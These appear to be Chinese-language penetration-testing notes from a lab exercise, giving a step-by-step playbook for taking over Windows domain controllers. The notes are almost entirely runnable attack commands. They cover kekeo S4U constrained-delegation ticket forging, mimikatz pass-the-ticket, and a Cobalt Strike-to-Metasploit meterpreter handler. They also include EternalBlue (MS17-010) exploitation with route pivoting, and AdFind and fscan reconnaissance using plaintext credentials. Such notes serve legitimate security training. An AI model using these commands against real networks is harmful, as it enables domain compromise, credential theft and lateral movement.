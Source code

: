 ~~~
kekeo "tgs::s4u /tgt:TGT_webadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
3、导入票据到内存
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
4、连接通讯域控
shell dir \\owa2010cn-god.god.org\c$

#横向移动-实战靶机-约束委派&数据库攻防
从外网 Weblogic 打到内网，再到约束委派接管域控
-攻击Weblogic - CVE-2017-10271

-攻击域内成员主机 - MS17010
1、CS执行联动MSF
msf ip xxxx 
spawn msf
3、MSF监听联动配置
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport xxxx
run
4、添加路由
run autoroute -p //查看当前路由表
run post/multi/manage/autoroute //添加当前路由表
5、利用模块
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp //正向连接上线
set rhost 10.10.20.7 //设置连接目标
set rhosts 10.10.20.7 //设置扫描目标
run

查找域内非约束委派用户和计算机：
AdFind.exe -h 10.10.10.8 -u saul -up admin!@#45 -b "DC=redteam,DC=red" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
信息收集加口令加漏洞探针：
fscan -h 10.10.10.18

-攻击域内数据库主机 - MSSQL+提权
Proxifier +  MDUT + 提权

-攻击域内域控主机 - 约束委派
1、kekeo请求获取sqlserver的TGT：kekeo "tgt::ask /user:sqlserver /domain:redteam.red /password:Server12345 /ticket:administrator.kirbi" "exit"
2、使用票据请求域控：kekeo "tgs::s4u /tgt:TGT_sqlserver@REDTEAM.RED_krbtgt~redteam.red@REDTEAM.RED.kirbi /user:Administrator@redteam.red /service:cifs/owa.redteam.red" "exit"
3、导入内存：mimikatz kerberos::ptt TGS_Administrator@redteam.red@REDTEAM.RED_cifs~owa.redteam.red@REDTEAM.RED.kirbi
4、连接域控：dir \\OWA\\c$

~~~
